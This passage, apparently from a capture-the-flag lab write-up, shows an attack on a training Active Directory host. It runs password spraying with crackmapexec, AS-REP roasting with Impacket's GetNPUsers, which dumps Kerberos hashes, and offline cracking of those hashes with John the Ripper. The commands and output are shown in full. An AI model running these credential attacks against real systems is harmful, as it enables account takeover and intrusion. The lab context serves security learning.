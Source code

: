 ```bash
```

Using the password I found earlier and the users list, we run a password spraying attack to see if any users still have that default password. And I do get a hit.

```bash
crackmapexec smb 10.10.202.246 -u users.txt -p 'ResetMe123!' --continue-on-success
SMB         10.10.202.246   445    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)

SMB         10.10.202.246   445    HAYSTACK         [+] THM\LILY_ONEILL:ResetMe123! 

```

It looks like LILY_ONEILL is a dead end, as it doesn’t have more access than the Guest user. But now that I have a users list, I can try AS-REP Roasting. It looks like we do have some hits.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py thm.corp/ -no-pass -usersfile users1.txt -dc-ip 10.10.202.246
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User 3091731410SA doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$ERNESTO_SILVA@THM.CORP:29203d76ff5a066a26910276f629b0f0$84d560fbf8691ec1f84a1d54e931538dfa27c1cbd6a10ee4933ff20d0620d01a2899bae513351ef317029396f007355cd0170273c5304a2cc3a01fd6cc633af8cbaef224d48edc98c75d16610e1668bfef0a5fdb665466d7d8262dab95c00aa418a4ea21df8f47db41318ba5e2308ec4180256605d9219d18f33745961829816ab5289f9602487cb20efdb569a5e53759a8f10636f291b20b7b95f98ac07b3e265be1f31bea90f7445128c8d9bb7782d3e97b0cf084d64f2b720fdc7b8e608743543863a727c8a3bca9f8e198c6cec0b087ca5fa1c92e0a5a82afe73c6ee7ca54182b7ee
$krb5asrep$23$TABATHA_BRITT@THM.CORP:9e4ee6447f20aac5d0350c566ac1cafe$de1c85ed6268e13c86d7fc6df6787adbf0a678a5eb4462a19e478b30fb7fb0408c4ac89dbd002ba164839e904b44687a746af1e96d8762cafa6f7ba60ff09735465591f30e5e77e19bce9cb60f2afdde71005e3f806e709bc8eee0f8f15c9cb496b21dd8371aa7cd9f14e6ac5f06a4c6f12c42283c295d32c0d2197bc3f26596e8dfdc484e75f95f3285980bbd8d295c3133feacc278f6943713e32408c8f69d93ca3e7d1c9a80ba105e74d08097d528dd6cbb7f50bbb150ad09d021c85470a137092a547f26d9aa6978d958477dd3ace5ae57fcfcd4fcbfafcec1274398805ef8042e4a
$krb5asrep$23$LEANN_LONG@THM.CORP:b0a4314b4072f808b97196114a2ffe8b$1047cea82fee6af97113690e6bccd65910abbda7560b53fb7c78055418a7b1a99018301829b2456750267b26ec6372924b0851f7bc09b3477607ce42e6955a1ef158340e71b78f03a19c37994f5bb211e1fb2ab365f74e34e448d9c3c1c6eb62d2a6949567218d5243c87c72848d0bbb593ad2da2ea4d63a8c1ddd9e080008911e4b34a8bf27aab079711e79b623b0b1d140ee8fff0fc15443b80243fcc0c77f49d0608063544495bb7154c3342dd00ae9555dfe44b05aef17bcd9d4a0078c250436db746b58f623eece21ed6bb14fe375b3c9cb3c22967cd1c98c6acd2febd0e0239e9e

```

There was no hit using hashcat, but using john I was able to get a hit.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hases.txt  
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
marlboro(1985)   ($krb5asrep$23$TABATHA_BRITT@THM.CORP)     
1g 0:00:00:36 DONE (2025-06-06 23:25) 0.02718g/s 389987p/s 936735c/s 936735C/s  0841079575..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
